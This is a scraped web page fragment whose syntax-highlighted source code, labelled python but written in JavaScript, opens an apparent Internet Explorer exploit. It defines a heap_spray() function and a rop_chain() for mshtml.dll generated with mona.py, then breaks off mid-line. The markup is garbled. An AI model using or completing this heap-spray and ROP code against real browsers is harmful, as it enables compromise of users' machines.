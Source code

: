 <table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778</td><td class="code"><code class="python plain">function heap_spray()</code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">CollectGarbage();</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var heapobj </code><code class="python keyword">=</code> <code class="python plain">new </code><code class="python functions">Object</code><code class="python plain">();</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">generated with mona.py (mshtml.dll v)</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">function rop_chain(mshtmlbase)</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var arr </code><code class="python keyword">=</code>